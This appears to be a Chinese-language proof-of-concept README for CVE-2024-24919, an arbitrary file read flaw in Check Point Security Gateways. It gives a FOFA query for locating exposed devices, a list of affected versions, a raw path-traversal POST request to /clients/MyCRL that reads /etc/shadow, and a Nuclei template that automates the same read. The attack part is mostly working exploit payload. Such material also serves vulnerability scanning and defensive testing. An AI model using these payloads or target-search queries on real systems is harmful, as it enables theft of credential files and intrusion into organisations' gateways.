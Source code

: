 ## Check-Point安全网关任意文件读取漏洞(CVE-2024-24919)

Check Point Security Gateways 是 Check Point Software 提供的一系列网络安全解决方案。这些解决方案包括下一代防火墙（NGFW）、数据中心安全网关和 AI 驱动的量子网关，旨在为企业提供针对复杂网络威胁的先进防护。它们通过集成的威胁防护、统一的安全管理和策略控制，确保网络、云、移动和端点的安全。

## fofa

```
icon_hash="1440532452"
```
![image](https://github.com/user-attachments/assets/4a5b91a6-1f1e-49a2-9109-48252a084388)

## 影响版本

```
Check Point Security Gateways R77.20 (EOL)
Check Point Security Gateways R77.30 (EOL)
Check Point Security Gateways R80.10 (EOL)
Check Point Security Gateways R80.20 (EOL)
Check Point Security Gateways R80.20.x
Check Point Security Gateways R80.20SP (EOL)
Check Point Security Gateways R80.30 (EOL)
Check Point Security Gateways R80.30SP (EOL)
Check Point Security Gateways R80.40 (EOL)
Check Point Security Gateways R81
Check Point Security Gateways R81.10
Check Point Security Gateways R81.10.x
Check Point Security Gateways R81.20
```

## poc

```
POST /clients/MyCRL HTTP/1.1
Host: ip
Content-Length: 39

aCSHELL/../../../../../../../etc/shadow
```

![image-20240530235057951](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405302350018.png)



## poc yaml

```
id: CVE-2024-24919

info:
  name: Check Point Quantum Gateway - Information Disclosure
  author: johnk3r
  severity: high
  description: |
    CVE-2024-24919 is an information disclosure vulnerability that can allow an attacker to access certain information on internet-connected Gateways which have been configured with IPSec VPN, remote access VPN or mobile access software blade.
  reference:
    - https://labs.watchtowr.com/check-point-wrong-check-point-cve-2024-24919/
    - https://support.checkpoint.com/results/sk/sk182337
  metadata:
    max-request: 1
    vendor: checkpoint
    product: quantum_security_gateway
    cpe: cpe:2.3:h:checkpoint:quantum_security_gateway:*:*:*:*:*:*:*:*
    shodan-query: html:"Check Point SSL Network"
    verified: true
  tags: cve,cve2024,checkpoint,lfi

http:
  - raw:
      - |
        POST /clients/MyCRL HTTP/1.1
        Host: {{Hostname}}
        
        aCSHELL/../../../../../../../etc/shadow
        
    matchers-condition: and
    matchers:
      - type: regex
        part: body
        regex:
          - "root:"
          - "nobody:"
        condition: and

      - type: status
        status:
          - 200
```

